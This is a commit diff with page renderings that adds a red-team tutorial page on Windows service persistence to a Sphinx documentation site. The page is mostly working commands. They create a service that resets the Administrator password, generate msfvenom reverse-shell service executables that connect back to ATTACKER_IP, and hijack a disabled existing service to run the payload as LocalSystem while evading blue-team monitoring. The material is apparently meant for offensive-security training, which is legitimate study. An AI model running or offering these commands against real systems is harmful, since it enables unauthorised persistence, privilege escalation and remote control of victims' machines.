

Before and after one commit to tymyrddin/red-hurdles, a Sphinx documentation site: the page built from source/docs/persistence/services.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

```diff
--- a/source/docs/persistence/services.md
+++ b/source/docs/persistence/services.md
@@ -1 +1,60 @@
 # Abusing services
+
+## Creating backdoor services
+
+Create and start a service named `service` using the following commands:
+
+    sc.exe create <service> binPath= "net user Administrator <password>" start= auto
+    sc.exe start <service>
+
+Note: There must be a space after each equal sign for the command to work.
+
+The `net user` command will be executed when the service is started, resetting the Administrator's password to
+`password`. The service has been set to start automatically (`start= auto`), so that it runs without requiring user
+interaction.
+
+We can also create a reverse shell with `msfvenom` and associate it with the created service. Service executables
+are unique since they need to implement a particular protocol to be handled by the system. If you want to create an
+executable that is compatible with Windows services, you can use the `exe-service` format in msfvenom:
+
+    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
+
+Copy the executable to the target system, say in `C:\Windows` and point the service's `binPath` to it:
+
+    sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
+    sc.exe start THMservice2
+
+This creates a connection back to your attacker's machine (if all went well).
+
+## Modifying existing services
+
+While creating new services for persistence works quite well, the blue team may monitor new service creation
+across the network. We may want to reuse an existing service instead of creating one to avoid detection.
+Any disabled service will be a good candidate, as it can be altered without the user noticing it.
+
+Get a list of available services:
+
+    sc.exe query state=all
+
+Query the service's configuration:
+
+    sc.exe qc <service>
+
+For using a service for persistence:
+
+* The executable `BINARY_PATH_NAME` points to the payload.
+* The service `START_TYPE` is automatic so that the payload runs without user interaction.
+* The `SERVICE_START_NAME`, which is the account under which the service will run, is preferably set to `LocalSystem`
+to gain `SYSTEM` privileges.
+
+Create a reverse shell with msfvenom:
+
+    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe
+
+Reconfigure the `service` parameters:
+
+    sc.exe config <service> binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
+
+Query the service's configuration again to check all went as expected:
+
+    sc.exe qc <service>
```
Also changed, not shown: source/docs/persistence/backdoor-files.md (+32 -2 lines), source/docs/persistence/tampering.md (+16 -5 lines), source/_static/images/Screenshot from 2022-10-09 21-46-28.png (added), source/_static/images/Screenshot from 2022-10-09 21-50-44.png (added), source/_static/images/Screenshot from 2022-10-09 21-55-30.png (added), source/_static/images/Screenshot from 2022-10-09 22-00-53.png (added), source/_static/images/Screenshot from 2022-10-09 22-07-50.png (added).
